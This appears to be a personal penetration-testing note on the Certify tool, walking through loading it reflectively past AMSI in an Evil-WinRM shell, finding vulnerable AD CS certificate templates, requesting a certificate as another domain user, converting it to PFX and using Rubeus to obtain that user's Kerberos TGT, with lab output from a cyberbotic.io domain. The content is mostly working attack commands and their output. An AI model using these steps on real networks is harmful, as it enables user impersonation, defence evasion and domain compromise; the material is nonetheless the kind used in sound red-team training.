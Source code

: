 ```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #🧰
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🧰  

# [[Certify]]  
___

## Description:
Find Certificate Authorities (CA's) and vulnerable templates with [Certify](https://github.com/GhostPack/Certify) 

## Installation

Run certify with through PowerShell
Run this to get base64 of certify (can run `pwsh` to do it in kali):

```
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Temp\Certify.exe")) | Out-File -Encoding ASCII C:\Temp\Certify.txt
```

create .ps1 script with the following:
```
$CertifyAssembly = [System.Reflection.Assembly]::Load([Convert]::FromBase64String("aa..."))
[Certify.Program]::Main("find /vulnerable /outfile:C:\Users\e.black\Documents\FILE.txt".Split())
```
Use evil winrm bypass and run the powershell
In evil winrm shell:
```
Bypass-4MSI
./certify.ps1
```

## Commands
Find Certificate Authorities (CA's):
`Certify.exe cas

Find vulnerable templates (the context of who you are running as matters):

```
beacon> getuid
[*] You are CYBER\iyates

beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable
```

Look for: 

**ENROLLEE_SUPPLIES_SUBJECT**, which allows the certificate requestor to provide a SAN (subject alternative name).

The certificate usage has **Client Authentication** set.

Domain Users have enrolment rights, so any domain user may request a certificate from this template

If a principal you control had WriteOwner, WriteDacl or WriteProperty, then this could also be abused.


Use the templete to request a certificate as another user:
```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-1.cyberbotic.io\ca-1 /template:VulnerableUserTemplate /altname:nglover

[*] Action: Request a Certificates

[*] Current user context    : CYBER\iyates
[*] No subject name specified, using current context as subject.

[*] Template                : VulnerableUserTemplate
[*] Subject                 : CN=Isabel Yates, CN=Users, DC=cyberbotic, DC=io
[*] AltName                 : nglover

[*] Certificate Authority   : dc-1.cyberbotic.io\ca-1

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 4

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA7+QJhT7SgrP2SLWI7JqilriLBFjGRgob7sK6Gt8/EN4ODCqA
[...snip...]
EZCgtNFHJpynmPVNEcocncFPtV1hskXIElcwer/EdIROOW+qZhan
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIGKzCCBROgAwIBAgITIQAAAAJ1qRjA3m3TOAAAAAAAAjANBgkqhkiG9w0BAQsF
[...snip...]
Xm58FnNpAvwXQi1Vu+xIdtpRSGsnl6T6/TYwJlhKqMEU9mRfgaWXgLS+HdS++aw=
-----END CERTIFICATE-----

[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Copy the whole certificate (including the private key) and save it to `cert.pem` on the Kali VM.  Then use the `openssl` command to convert it into pfx format.  You may enter a password (recommended) or leave it blank.

```
root@kali:~# openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter Export Password:
Verifying - Enter Export Password:
```

Convert `cert.pfx` into a base64 encoded string:  `cat cert.pfx | base64 -w 0` and use `Rubeus asktgt` to request a TGT using this certificate.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:nglover /certificate:MIIM5wIBAz[...snip...]dPAgIIAA== /password:password /nowrap

[*] Action: Ask TGT

[*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=Isabel Yates, CN=Users, DC=cyberbotic, DC=io 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'cyberbotic.io\nglover'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGNjCCB[...snip...]pYy5pbw==

  ServiceName              :  krbtgt/cyberbotic.io
  ServiceRealm             :  CYBERBOTIC.IO
  UserName                 :  nglover
  UserRealm                :  CYBERBOTIC.IO
  StartTime                :  1/18/2022 4:38:26 PM
  EndTime                  :  1/19/2022 2:38:26 AM
  RenewTill                :  1/25/2022 4:38:26 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  unJ966veiMXllOu4n88hvAcX/6j71To9JJU5Ec48Pds=
  ASREP (key)              :  6F8361B5177CCC416E67A297C9D61AC975DEAA9E0505DE86657F16EAE9AD8F72
```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (02:50 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
